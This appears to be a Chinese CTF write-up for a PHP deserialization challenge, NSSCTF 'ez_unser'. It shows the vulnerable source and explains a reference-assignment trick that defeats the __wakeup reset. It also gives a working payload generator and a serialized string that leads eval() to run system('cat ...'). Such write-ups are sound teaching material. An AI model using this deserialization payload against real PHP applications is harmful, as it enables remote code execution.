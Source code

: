 ```yaml
---
title: 日穿php反序列化
date: '2024-6-12 21:50'
categories: 渗透测试
description: 从此打穿天下所有的php反序列化waf
cover: 'https://gitee.com/eviden/img/raw/master/33591dfae30e46459108dc785e1217a9.png'
abbrlink: db1d0201
---
```


> [UUCTF 2022 新生赛\]ez_unser | NSSCTF](https://www.nssctf.cn/problem/3095)

```php
<?php
show_source(__FILE__);

###very___so___easy!!!!
class test{
    public $a;
    public $b;
    public $c;
    public function __construct(){
        $this->a=1;
        $this->b=2;
        $this->c=3;
    }
    public function __wakeup(){
        $this->a='';
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a=$_GET['a'];
if(!preg_match('/test":3/i',$a)){
    die("你输入的不正确！！！搞什么！！");
}
$bbb=unserialize($_GET['a']);
NSSCTF{This_iS_SO_SO_SO_EASY}
```

讨人厌的waf`if(!preg_match('/test":3/i',$a))`,这里写死了反序列化后的成员数量,让你无法绕过wakeup()魔法,必定触发` $this->a='';`然后不能命令执行了.

这样我们选择一手`金蝉脱壳`运用引用赋值,将b和a的引用指向同一个地方,`这样也就能让b和a的值同时变化`,题中只对a的值做变化,而其引用b的地址没变,`进而通过控制c控制b的值然后a和b一个引用`,因此仍然是可以命令执行的.

Payload:

```php
<?php
 class test{
    public $a,$b,$c;
    public function __construct(){
        $this->a=1;
        $this->b=&$this->a;
        $this->c="system('cat /fffffffffflagafag');";
        // $this->b="system('cat /fffffffffflagafag');";
        // $this->c='123';
        
    }
 }
 echo serialize(new test());
 //O:4:"test":4:{s:1:"a";i:1;s:1:"b";R:2;s:1:"c";s:33:"system('cat /fffffffffflagafag');";}
```

----

> 字符串逃逸,伪协议